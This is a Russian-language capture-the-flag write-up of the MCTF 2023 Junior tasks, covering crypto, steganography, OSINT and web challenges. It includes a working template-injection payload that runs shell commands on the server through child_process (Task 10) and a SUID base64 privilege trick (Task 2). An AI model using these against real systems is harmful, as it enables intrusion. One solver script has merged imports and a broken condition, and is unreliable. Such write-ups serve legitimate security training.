# MCTF 2023 Junior

---

## Task 1: WELCOME (easy)

Нам предоставлен файл с расширением .wad, который нам необходимо открыт в соответствующем редакторе, который поддерживает данный формат, например:


Просто перемещаем файл в окрытое окно программы и находим раздел с флагом:



Флаг: **MCTF{D0OM_KRUT0}**

---

## Task 2: Basilisk (easy) - misc

Нам выданы данные для подключения по ssh к серверу: `ssh user@mctf.ru -p 2222`, а также файл приватного ключа:



Подключаемся по приватному ключу и сразу посмотрим на **/etc/passwd**



В итоге находим пользователя **admin**. У него имеется флаг (**/home/admin/flag**) (узнаем через linpeas.sh). Также, применив команду `find / -perm -4000 2>/dev/null`, можно узнать, что мы может выполнять комаду base64 с привилегированными правами (также это можно узнать через linpeas.sh)



Получаем содержимое файла с флагом в форме base64 и сразу же декодируем его, получая флаг:



Флаг: **mctf{D@ng3roUs_B@s4}**

---

## Task 3: OhMyPosh (easy) - misc

Нам дан PowerShell скрипт. Вот его часть:



Примечательно, что у нас есть две строки в base64:
- m5WCkI2mxqHFhKm5kKmGxqCgk6TSnpPHx4s=
- RW50ZXIgYSBQYXNzd29yZA==

А также замечаем операцию **bxor**:



При этом данная операция выполняется относительно первой строки (обращаем внимание на переменные в ходе решения). Подбираем значение ключа и декодируем:



Флаг: **mctf{P0W3r_Of_p0VVeR$he11}**

---

## Task 4: Basecrypto (easy) - crypto

Нам дано:

```python
print(__import__('base64').b64encode(bytes(''.join([chr(ord(i) << 2) for i in 'MCTF{…}']).encode())))
>>>xLTEjMWQxJjHrMS8x6THpMW8xaTDgMeUxbzGrMS4xrzFnMW8xITGiMa8xZTHkMW8xYzEoMOExpjFkMe0
```

Есть шифр + исходный код. Все, что нам необходимо делать для декодирования - последовательно двигаться от обратного:

```python
import base64


encoded_flag = "xLTEjMWQxJjHrMS8x6THpMW8xaTDgMeUxbzGrMS4xrzFnMW8xITGiMa8xZTHkMW8xYzEoMOExpjFkMe0"
decoded_flag = ""


# 1) Декодируем base64
decoded__base64 = base64.b64decode(encoded_flag)
print(decoded__base64)
# b'\xc4\xb4\xc4\x8c\xc5\x90\xc4\x98\xc7\xac\xc4\xbc\xc7\xa4\xc7\xa4\xc5\xbc\xc5\xa4\xc3\x80\xc7\x94\xc5\xbc\xc6\xac\xc4\xb8\xc6\xbc\xc5\x9c\xc5\xbc\xc4\x84\xc6\x88\xc6\xbc\xc5\x94\xc7\x90\xc5\xbc\xc5\x8c\xc4\xa0\xc3\x84\xc6\x98\xc5\x90\xc7\xb4'


# 2) Декодируем байты
decoded__bytes = bytes.decode(decoded__base64, 'utf-8')
print(decoded__bytes)
# ĴČŐĘǬļǤǤżŤÀǔżƬĸƼŜżĄƈƼŔǐżŌĠÄƘŐǴ


# 3) Побитовый сдвиг в противоположную сторону на такое же количество пунктов (2)
decoded_flag = [chr(ord(i) >> 2) for i in decoded__bytes]
print("".join(decoded_flag))
# MCTF{Oyy_Y0u_kNoW_AboUt_SH1fT}
```  

Флаг: **MCTF{Oyy_Y0u_kNoW_AboUt_SH1fT}**

---

## Task 5: Два брата-шифровата (easy) - stegano

Нам выдана картинка:



Через steghide (Aperi'Solve) находим **flag.zip**:



Внутри этого архива есть одноименный файл. Стоит открыть кго в HEX-редакторе и посмотреть первый заголовок, чтобы узнать расширение (.png)


Сам файл:



Находим на dcode.fr - **Braille Alphabet** и декодируем сообшение, оборачивая его в обертку:



Флаг: **mctf{eavesdropp1ng}**

---

## Task 6: Упал лицом на клаву (easy) - joy

Дано: zaq1w3edc vfr45665432 5tgbnju7 76tgvbn 7898ik,.,m

Тут просто открываем картинку какой-нибудь клавиатуры и последовательно соединяем символы:



Флаг: **mctf{MTUCI}**

---

## Task 7: Secret MCTF-2016 (easy) - OSINT

Нам дан json-файл, в котором содержится выгрузка чата MCTF за 2016 год:



Через Ctrl + F находим обертку:



Значит, скорее всего, в этом файле полный флаг. Но надо найти остальные части:





(Также это можно было найти средствами питона, спарсив все уникальные поля "from" и "actor")

```python
import json


users = []

def check_array_of_users(user):
	if user not in users:
		users.append(user)
		return True
	else:
		return False


def main():
	with open("mctf2016.json", "r", encoding="UTF-8") as json_data:
		data = json.load(json_data)

		for i in data["messages"]:
			try:
				check_array_of_users(i["from"])
			except KeyError:
				check_array_of_users(i["actor"])
			finally:
				pass
	print(users)
	return 0

if __name__ == "__main__":
	main()
```

```cmd
C:\Users\Abends\Desktop>python solve_json.py
['M*CTF-2016', 'Андрей Иванов', 'Anna Kogan', 'Maksim Gurskiy', 'Alexander ATOMIC Miller', 'MCTF{', 'Daria Loginova', 'Anton Chusovitin', 'P SH', 'W0nderf7l_', 'Phil', None, 'Hoshizora Hikari', 'baton', 'Alexxtri', 'Ivan', 'T3l3Gr@m_', 'Mariam @n@y@n', 'Aleksandr Eremin', 'Olga Karelova', 'Саша Батанова', 'Valeriy M', 'Ivan Strashko', 'Vitaliy Malkin', 'Kirill Samokhin', 'Ilya Shaposhnikov', 'USeR}', 'Ryuk', 'Ike Murami', 'Mikhail Voronov', 'Pavel', 'Maxim Androsov', '.', 'Ri Li', 'Peter Destructive', 'Lov3ly D3ath', 'Denis', 'Ilya', 'Дмитрий', 'vient', 'Vasilii Kryuchkov', 'Aleksandr Kondratev', 'Fred Collins', 'Влад Бабкин ͏', 'Gleb', 'Pavel Shlundin', 'Игорь Зарецкий', 'A', 'qwe', 'img src="xss.zxc"', 'Kirill Firsov', 'kitsu', 'Misha is typing', 'Ilya Yakubovskiy', 'Sudhakar Verma', 'Heart LESS', 'p41l', 'Андрей Гузей', 'Антон', 'Ramil I', 'Vladas', 'Alexander Andreev', 'Vladusha', 'Shine', 'Юрий Павенский', 'shashial', 'YmxhY2tmMHg=', 'Evgeny Nikitenko', 'DK', 'Sergey 🏖', 'Ken Kee Soul', 'Julia', 'Asen', 'Nikolay Tkachenko', 'Viktor', 'iDj orik', 'Shmelev Jaroslav', 'Eva Sokolova', 'Mikhail Akopov', 'Дмитрий Пилигрим', 'Victor Rudnev', 'Tatiana Yatsenko', 'Ivan Novikov', 'Александр', 'Arkadiy Litvinenko', 'Konstantin Baladurin', 'Olga Kassirova', 'Mariya', 'Mary M', 'Vasilii', 'archy', 'Tal', 'Игорь', 'DJ', 'VJ', 'Sudlo 🇮🇱🇮🇳', 'Test Test', 'Dmitry Mantis', 'RT', 'Alex K', 'AK', 'Valerio R.    ', 'Nikita', 'Ilya Semibratov', 'Mιkε β49ηΔ1η', 'Onix', 'Пётр', 'Sergey Kochanov', 'Vitaliy', 'Andrew K.', 'Ilia Pavlov', 'Andrew', 'Anton', 'Andrey Gostev', 'Alexey Rodionov', 'Epayan', 'Лебедева Маша', 'Patricia']
```

Флаг: **MCTF{W0nderf7l_T3l3Gr@m}**

---

## Task 8: Rounds Meme (easy) - stegano

Дана картинка:



На ней видны цифры, причем все... Суть данного задания состоит в том, чтобы поиграться с парамтерами "яркость" и "контрастность". Мы же это задание выполнили при помощи редактора GIMP. Смотрим более детально на каждый круг:

Часть 1 - mctf{h



Часть 2 - 31lO



Часть 3 - _c0loR



Часть 4 - B11n


Часть 5 - D_P3o


Часть 6 - p1e}



Флаг: **mctf{h31lO_c0loRB11nD_PЗop1e}**

---

## Task 9: old glad (hard) - OSINT

Перерыв огромное количество вариантов, были найдены только ники GLADiko, GLADIATORPWNZ... В итоге, прошерстив один из тематических форумов, замечаем еще один интереный ник - "ГладКалитка"





Это и есть наш флаг

Флаг: mctf{ГладКалитка}

---

## Task 10: CATalog (easy) - web

Заходим по ссылке:



В директории **/flag** видим только Forbidden:



Также на сайте есть форма загрузки:



Помимо картинки можно загрузить и комментарий, который и является уязвимым местом:

```sh
<%= "pwnd".toString.constructor.call({},"return global.process.mainModule.constructor._load('child_process').execSync('env').toString()")() %>
```





Флаг: **MCTF{o_moy_bog_task_pro_kotov_skolko_mojno_uje}**

---

## Task 11: Тряхнем стариной (medium) - OSINT

Обратим внимание на ключевые слова в описании к таску:

```sh
Собрались мы с другом пойти в кафешку, все бы ничего, но он притащил с собой опять этого интернет-гика О
ооо, этот интернет гик, все мозги извел, нашел какой-то старый вирусный мем, угорал над ним весь вечер 
Я решил тоже посмотреть что же это такое, сказал, что мне нужно в туалет, и взял с собой телефон, но я помню только эти слова: 
"начало, Compuserve, ты точно поймешь, что это оно" Поможешь мне найти его?
```

Самый старый вирусный мем:



---

## Task 12: Карусель карусель, кто успел (medium) - ppc

Переходим по ссылке и находим QR-code вместе с счетчиком **0/200**:



Суть таска в том, что при декодировании QR-кода появляется ссылка на новый:

 

 

```python
import requestsimport base64
import iofrom pyzbar.pyzbar import decode, ZBarSymbol
from PIL import Image, ImageFilefrom bs4 import BeautifulSoup

# Сессия
session = requests.Session()

# Декодер QR-кодов
def decode_qr_from_base64(base64_str):
    qr = Image.open(io.BytesIO(base64.b64decode(base64_str)))    
    decoded_qr = decode(qr)[0].data
    text = decoded_qr.decode()    
    print(f"[+] Decoded base64: {text}")
    
    # Проверка на наличие флага
    if "MCTF" or "mctf" not in text:
        return text    
    else:
        print(text)        
        return 0

# Парсер base64-строки с реализацией запросов к веб-ресурсу
def follow_qr_codes(url, i):    
    print(f"[+] {i} - Получение данных с {url}")
    resp = session.get(url)
    soup = BeautifulSoup(resp.text, 'html.parser')
    images = soup.findAll('img')    
    for image in images:
	# Получили ссылку на новый QR, после вызываем декодер        
	return decode_qr_from_base64(image['src'][22:])


if __name__ == "__main__":
    # Первая ссылка стандартная, а вот остальные с приставкой `?qrcode=` и внутри qr нет приставки `http://`
    start_url = "http://<ip>:<port>"
    start_resp = session.get(start_url)
    new_url = follow_qr_codes(start_url, i="0")
    for i in range(1, 201):        
	result = follow_qr_codes("http://" + new_url, i=i)
        new_url = result
```

 

 

Эталонное решение от автора таска:

```python
from pyzbar.pyzbar import decode, ZBarSymbol
from requests import Session
from PIL import Image, ImageFile
import io
import re
import base64
import numpy as np

HOST = "ip:port"

session = Session()

def iterate(HOST):
    r = session.get('http://' + HOST)
    base64_string = re.search(r'data:image/png;base64,(.*?)"', r.text).group(1)
    qrcode = Image.open(io.BytesIO(base64.b64decode(base64_string)))
    decoded_qr = decode(qrcode)[0].data
    text = decoded_qr.decode()
    if "MCTF{" not in text:
        iterate(text)
    else:
        print(text)
    #print(decoded_qr.decode())

iterate(HOST)
```

---

## Task 13: memzilla (hard) - forensic

ПОЗЖЕ

---
